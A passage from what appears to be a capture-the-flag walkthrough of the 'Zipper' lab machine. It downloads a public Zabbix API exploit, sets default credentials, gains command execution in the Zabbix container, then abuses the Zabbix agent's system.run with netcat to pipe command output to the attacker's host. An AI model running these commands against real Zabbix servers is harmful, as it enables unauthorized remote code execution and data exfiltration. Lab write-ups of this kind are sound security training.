     root@kali# wget https://www.exploit-db.com/raw/39937 -O 39937.py
    --2019-02-20 14:55:28--  https://www.exploit-db.com/raw/39937
    Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
    Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1712 (1.7K) [text/plain]
    Saving to: ‘39937’

    39937                                                  100%[============================================================================================================================>]   1.67K  --.-KB/s    in 0.001s  

    2019-02-20 14:55:28 (1.36 MB/s) - ‘39937.py’ saved [1712/1712]



Now I need to update some stuff at the top:



    ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
    url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit

    login = 'zapper'                ### Zabbix login
    password = 'zapper'     ### Zabbix password
    hostid = '10106'        ### Zabbix hostid



Now I run it, and have RCE in the Zabbix container:



    root@kali# python 39937.py 
    [zabbix_cmd]>>:  hostname
    91cae047f48a

    [zabbix_cmd]>>:  id
    uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)



#### RCE on Zipper

Now I can use the Zabbix agent on Zipper to get RCE. I mentioned in
Recon that I could try to talk to this port directly from Kali, but
nothing comes back:



    root@kali# echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
    root@kali# 



That's because the agent is filtering out input that comes from anything
but the Zabbix host. But with RCE on the Zabbix host, I can send
commands. The output isn't sent back, but I can pipe it into nc and send
it back to my host:



    [zabbix_cmd]>>:  echo "system.run[hostname | nc 10.10.14.14 443]" | nc 10.10.10.108 10050
    ZBXD8

